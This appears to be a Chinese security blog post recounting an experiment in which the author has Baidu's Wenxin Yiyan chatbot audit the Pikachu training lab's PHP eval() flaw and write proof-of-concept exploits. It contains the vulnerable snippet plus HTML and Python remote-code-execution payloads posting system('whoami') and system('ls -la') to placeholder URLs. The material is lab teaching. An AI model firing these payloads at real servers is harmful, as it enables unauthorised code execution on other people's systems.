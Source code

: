 #  AI代码审计和POC编写   
原创 道玄安全  道玄网安驿站   2024-11-16 15:25  
  
**“**  
 AI做代码审计和POC编写真好使**”**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPA9bic9zzTydWv4XTTHH2NAiamMp8Kxsh4s2lukPuyuwnia3NiaHkiaU8a3JGFhLvNnYvtLvHTFAd91Rw/640?wx_fmt=png&from=appmsg "")  
  
      
看到了，**关注一下**  
不吃亏啊，点个赞转发一下啦，WP看不下去的，可以B站搜：**标松君**  
，UP主录的打靶视频，欢迎关注。顺便宣传一下星球：**重生者安全，**  
 里面每天会不定期更新**OSCP**  
知识点，**车联网**  
，**渗透红队**  
以及**漏洞挖掘工具**  
等信息分享，欢迎加入；以及想挖**SRC逻辑漏洞**  
的朋友，可以私聊。  
  
  
  
  
  
01  
  
—  
  
  
  
AI代码审计初体验  
  
  
        在看了很多AI模型对代码审计的能力后，小编也想来体验一下AI做代码审计和POC编写的尝试，所以有了一下小实验：  
  
1.实验目标：通过**AI**写出一段**python**编写的**POC**  
  
2.实验工具：**百度文心一言**  
  
3.实验靶机：pikachu  
  
  
  
02  
  
—  
## 实验过程  
  
  
  
    小编选择了pikachu的RCE漏洞，漏洞代码如下：  
```
路径：C:\phpstudy_pro\WWW\pikachu\vul\rce\rce_eval.php

if(isset($_POST['submit']) && $_POST['txt'] != null){
    if(@!eval($_POST['txt'])){
        $html.="<p>你喜欢的字符还挺奇怪的!</p>";

    }

}
```  
  
  
将代码输入文心一言并附上要求：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yM8MVMVR9fYxCBbOBo9PCaqWKCg6ibKzIicOtPwSdYnpLI3oby2UiaxyzBmFNIcnrc2RanMwbKSxxY5A/640?wx_fmt=png&from=appmsg "")  
  
  
下面是AI给出的html版的代码：  
```
<!DOCTYPE html>
<html>
<head>
    <title>POC: Exploit for eval() vulnerability</title>
</head>
<body>
    <h1>POC: Exploit for eval() vulnerability</h1>
    <form action="http://your-vulnerable-site.com/vulnerable-page.php" method="POST">
        <label for="txt">Enter PHP code to execute:</label>
        <textarea name="txt" id="txt" rows="10" cols="50"><?php echo phpinfo(); ?></textarea><br><br>
        <input type="hidden" name="submit" value="1">
        <input type="submit" value="Submit">
    </form>
</body>
</html>
```  
  
  
小编想要的是python版本的，就继续要求它：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yM8MVMVR9fYxCBbOBo9PCaq8Qsludib0jKe5KibI86oRUTe3oHTJ4EjsrBAd8mcu8E2zv6QAK37Lfqw/640?wx_fmt=png&from=appmsg "")  
  
  
代码如下：  
```
import requests

# 目标网站的 URL
url = "http://your-vulnerable-site.com/vulnerable-page.php"

# 要执行的 PHP 代码（作为字符串发送）
malicious_code = "<?php echo 'Vulnerable!'; system('whoami'); ?>"

# 构建 POST 数据
post_data = {
    'txt': malicious_code,
    'submit': '1'  # 假设后端检查这个字段来确定是否处理请求
}

# 发送 POST 请求
response = requests.post(url, data=post_data)

# 输出响应内容
print(response.text)
```  
  
  
将代码中的URL地址修改一下，试一试，发现不太行，直接用它的payload放进漏洞的输入框发现是失败的：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yM8MVMVR9fYxCBbOBo9PCaq1YG1T5jLMRjhQ5m3erm3VOmpzjlcQPjfM06yth5YwIVlcmGQQljL5A/640?wx_fmt=png&from=appmsg "")  
  
  
我们继续要求：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yM8MVMVR9fYxCBbOBo9PCaqVNwJjLJkeJRApfUxIYMetVtFSFneUMOlKLb1WTnnmvbecfCtwKUODQ/640?wx_fmt=png&from=appmsg "")  
  
  
这回它给出的poc是：  
```
import requests

# 目标URL（替换为你的目标URL）
target_url = "http://example.com/vulnerable_script.php"

# 构造POST数据
# 尝试执行一个简单的echo语句
post_data = {
    'submit': '1',  # 确保submit字段存在
    'txt': 'echo "Hello from eval!";'  # 尝试输出字符串
}

# 发送POST请求
response = requests.post(target_url, data=post_data)

# 打印响应内容
print(response.text)
```  
  
直接把payload放到输入框，  
可以正常执行了！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yM8MVMVR9fYxCBbOBo9PCaqnDYIFfCGhY9u4aib4MLeElbdHqaBv493yO6J2kUDLMibzXxKKXjsGlWA/640?wx_fmt=png&from=appmsg "")  
  
  
继续给它要求：  
```
就照着'txt': 'echo "Hello from eval!";' 的格式，写一个system函数的poc
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yM8MVMVR9fYxCBbOBo9PCaqYTu7TOeo5TmiaAJllPsqkUKReJoniaUdVdGdcE1e5IA43zlAIeZyY62Q/640?wx_fmt=png&from=appmsg "")  
  
  
POC如下：  
```
import requests

# 目标URL（替换为你的目标URL）
target_url = "http://example.com/vulnerable_script.php"

# 注意：在Windows系统上，应使用'dir'而不是'ls'
# 构造POST数据，尝试执行system函数列出当前目录内容
# 对于Unix/Linux系统
post_data_unix = {
    'submit': '1',  # 确保submit字段存在
    'txt': 'system("ls -la");'  # 尝试执行ls命令列出目录内容
}

# 对于Windows系统
# post_data_windows = {
#     'submit': '1',
#     'txt': 'system("dir");'  # 尝试执行dir命令列出目录内容
# }

# 选择适当的POST数据（根据你的目标系统）
post_data = post_data_unix  # 或者 post_data_windows

# 发送POST请求
response = requests.post(target_url, data=post_data)

# 打印响应内容
print(response.text)
```  
  
  
由于我的是windows部署的靶机，所以出现了下面的结果：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yM8MVMVR9fYxCBbOBo9PCaqLfvylgiciaTb39lFPuDwTuxtSVmEoJSbousyx9tdKdMQFsohOicvd05Ug/640?wx_fmt=png&from=appmsg "")  
  
  
  
到现在我已经成功的让AI根据一段代码写出了poc！，不得不说AI做代码审计是天然的优势！  
  
  
  
  
  
**更多精彩内容请扫码关注“重生者安全”星球**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/L369x9IF3yPA9bic9zzTydWv4XTTHH2NAeuqcZvqTz0LHiadOuGVcHz49J7Wl5mAkug4yC75PbuErvyuib90R9l8g/640?wx_fmt=png&from=appmsg "")  
  
****  
免责声明：  
### 本人所有文章均为技术分享，均用于防御为目的的记录，所有操作均在实验环境下进行，请勿用于其他用途，否则后果自负。  
  
第二十七条：任何个人和组织不得从事非法侵入他人网络、干扰他人网络正常功能、窃取网络数据等危害网络安全的活动；不得提供专门用于从事侵入网络、干扰网络正常功能及防护措施、窃取网络数据等危害网络安全活动的程序和工具；明知他人从事危害网络安全的活动，不得为其提供技术支持、广告推广、支付结算等帮助  
  
第十二条：  国家保护公民、法人和其他组织依法使用网络的权利，促进网络接入普及，提升网络服务水平，为社会提供安全、便利的网络服务，保障网络信息依法有序自由流动。  
  
任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益，煽动颠覆国家政权、推翻社会主义制度，煽动分裂国家、破坏国家统一，宣扬恐怖主义、极端主义，宣扬民族仇恨、民族歧视，传播暴力、淫秽色情信息，编造、传播虚假信息扰乱经济秩序和社会秩序，以及侵害他人名誉、隐私、知识产权和其他合法权益等活动。  
  
第十三条：  国家支持研究开发有利于未成年人健康成长的网络产品和服务，依法惩治利用网络从事危害未成年人身心健康的活动，为未成年人提供安全、健康的网络环境。  
  
  
  
  
  
